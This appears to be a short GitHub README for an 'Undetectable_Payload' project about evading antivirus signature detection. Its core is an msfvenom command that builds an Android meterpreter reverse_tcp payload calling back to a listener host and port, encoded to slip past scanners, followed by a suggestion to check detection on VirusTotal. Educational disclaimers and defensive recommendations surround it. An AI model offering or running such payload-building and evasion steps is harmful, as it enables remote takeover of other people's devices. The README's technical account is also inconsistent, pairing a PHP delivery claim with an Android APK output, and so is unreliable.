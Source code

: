 # Undetectable_Payload

This project demonstrates the creation of an **obfuscated payload** using **Kali Linux**, **PHP**, and **Base64 encoding** techniques. The goal is to explore how payloads can bypass simple signature-based detection methods, and to raise awareness of the need for stronger security measures.

## 🔧 How It Works

The payload uses:
- **PHP** as the delivery script
- **Base64** encoding for obfuscation
- **Kali Linux tools** (`msfvenom`) to generate and serve the payload

The final PHP script is encoded and optionally includes multi-layer obfuscation to evade basic detection.

## 🚀 Usage

> You must run these commands in a controlled, isolated, and authorized environment.

### Generate the undectable payload
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.187.132 LPORT=4444 -o test.apk -e php/base64
````

### Run a private window
```bash
 firefox --private-window
````

## 🧪 Testing

Use tools:

* [VirusTotal](https://www.virustotal.com/)

![Screenshot 2025-05-10 194716](https://github.com/user-attachments/assets/267b3924-73e8-4416-94d2-d98a4c2040a3)


## 🛡️ Recommendations

This project illustrates:

* The ease of bypassing naive security measures
* The importance of behavioral analysis over static signature detection
* Why layered security (IDS/IPS + behavioral + endpoint security) is crucial


## 📚 Resources

* [Metasploit Framework](https://www.metasploit.com/)

## ⚠️ Disclaimer 
This project is intended for **educational** and **ethical penetration testing** purposes **only**. Do **not** use this tool on networks or systems you do not own or have explicit permission to test. Unauthorized access to systems is illegal and unethical.

## ✅ Legal Notice

This code is provided **as-is**, with **no warranty** or guarantee of effectiveness. The user is solely responsible for all actions taken with this code. By using this, you agree to comply with all applicable laws and regulations.

